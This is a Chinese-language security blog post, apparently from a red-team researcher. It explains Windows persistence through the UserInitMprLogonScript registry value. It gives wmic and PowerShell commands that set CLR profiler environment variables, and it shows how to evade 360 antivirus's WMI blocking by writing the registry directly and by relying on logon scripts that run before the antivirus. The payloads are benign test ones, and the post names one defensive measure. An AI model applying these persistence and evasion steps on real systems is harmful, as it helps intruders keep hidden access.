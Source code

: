 ```yaml
---
layout: post
title: Use Logon Scripts to maintain persistence
---
```


## 0x00 前言
---

依旧是对后门利用方法做介绍，本次介绍的是使用Logon Scripts的方法。然而我在研究过程中发现了一个特别的用法，脚本优先于杀毒软件执行，能够绕过杀毒软件对敏感操作的拦截，本文将要具体介绍这个技巧。

**注:**

有些杀毒软件是可以做到优先于Logon Scripts启动的

## 0x01 简介
---

- Logon Scripts用法
- 绕过360对wmi调用的拦截
- 特别用法

## 0x02 Logon Scripts用法
---

思路来自于Adam@Hexacorn，地址如下：

http://www.hexacorn.com/blog/2014/11/14/beyond-good-ol-run-key-part-18/

### 简要介绍Logon Scripts的用法

注册表路径：`HKCU\Environment\`

创建字符串键值： `UserInitMprLogonScript`

键值设置为bat的绝对路径：`c:\test\11.bat`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/1-1.png)

bat内容如下：

`start calc.exe`

注销，登录

执行脚本11.bat，弹出计算器


## 0x03 绕过360对通过wmi修改环境变量的拦截
---

在之前的文章《Use CLR to maintain persistence》提到过使用wmic修改环境变量的方法

命令如下：

```
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"

wmic ENVIRONMENT create name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"
```

然而，360会对WMI的操作进行拦截，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/2-1.png)

其实通过WMI添加环境变量等价于在注册表`HKCR\Environment\`新建键值

所以对WMI的操作可以通过写注册表的操作进行代替


以上WMI命令可替换为如下powershell代码：

```
New-ItemProperty "HKCU:\Environment\" COR_ENABLE_PROFILING -value "1" -propertyType string | Out-Null

New-ItemProperty "HKCU:\Environment\" COR_PROFILER -value "{11111111-1111-1111-1111-111111111111}" -propertyType string | Out-Null
```

## 0x04 特别用法
---

源于我的一个特别的想法

我在对该技巧研究的过程中，产生了一个有趣的想法，Logon Scripts启动的顺序是否优先于其他程序呢？

如果是的话，那么是否也优先于杀毒软件呢？

下面开始我的测试：


### 1、cmd输入如下代码

```
wmic ENVIRONMENT create name="test",username="%username%",VariableValue="I run faster!"
```

不出意外，被拦截


### 2、设置Logon Scripts

11.bat代码如下：

```
wmic ENVIRONMENT create name="test",username="%username%",VariableValue="I run faster!"
reg query HKEY_CURRENT_USER\Environment /V test
pause
```

### 3、启用Logon Scripts

注册表路径：`HKCR\Environment\`

创建字符串键值： `UserInitMprLogonScript`

键值设置为bat的绝对路径：`c:\test\11.bat`

由于调用WMI会被拦截，可以通过powershell实现，代码如下：

```
New-ItemProperty "HKCU:\Environment\" UserInitMprLogonScript -value "c:\test\11.bat" -propertyType string | Out-Null
```

### 4、注销，重新登录，测试

如果注册表`HKCR\Environment\`成功被写入键值`test` `REG_SZ` `I run faster!`，说明Logon Scripts优先于杀毒软件执行，绕过杀毒软件的限制


完整操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/3.gif)

测试成功，验证我们的结论

## 0x05 防御
---

监控注册表键值`HKCR\Environment\UserInitMprLogonScript`


## 0x06 小结
---

本文对Logon Scripts的用法进行了测试，并且介绍了一个特别用法，Logon Scripts能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截。
站在防御的角度，要对此保持警惕。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)
